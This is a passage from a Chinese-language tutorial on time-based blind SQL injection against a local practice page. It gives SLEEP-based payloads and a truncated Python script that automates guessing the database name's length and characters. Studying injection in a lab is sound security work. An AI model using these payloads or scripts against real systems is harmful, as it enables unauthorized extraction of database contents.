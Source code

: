 或者通过`SUBSTR(DATABASE(),1,1)>'q'`来直接猜测数据库名的字符

```sql
0' OR (SELECT 1 FROM (SELECT IF(SUBSTR(DATABASE(),1,1)>'q',SLEEP(1),1)) AS a)#
```

<img src="./IMG3/{B503981C-B86C-4552-BF4E-60FA9B29A787}.png">

```sql
0' OR (SELECT 1 FROM (SELECT IF(SUBSTR(DATABASE(),1,1)>'u',SLEEP(1),1)) AS a)#
```

<img src="./IMG3/{3D4BBE26-CCAB-4D88-8254-6681B5ECF3B0}.png">

这种类型的手工注入相当繁琐，因此我们使用脚本来进行

**脚本注入**

```py
import requests
import string

url = 'http://localhost/sql-injection/blind-time.php'
charset = string.ascii_lowercase + string.digits + string.punctuation

# 确定长度
maxLen = 10
dataBaseLen = 0
for i in range(1, maxLen + 1):
    print(f'正在测试数据库名长度为{i}...')
    payload = f"0' OR (SELECT 1 FROM (SELECT IF(LENGTH(DATABASE())={i},SLEEP(1),1)) AS a)#"
    response = requests.post(url, data={'username': payload})
    responseTime = response.elapsed.total_seconds()
    if responseTime > 1.0:
        dataBaseLen = i
        break
print(f'>>> 数据库名长度为{dataBaseLen}')

# 确定数据库名
dataBaseName = ''
for i in range(1, dataBaseLen + 1):
    print(f'正在测试数据库名第{i}个字符...')
    for char in charset:
        payload = f"0' OR (SELECT 1 FROM (SELECT IF(SUBSTRING(DATABASE(),{i},1)='{char}',SLEEP(1),1)) AS a)#"
```
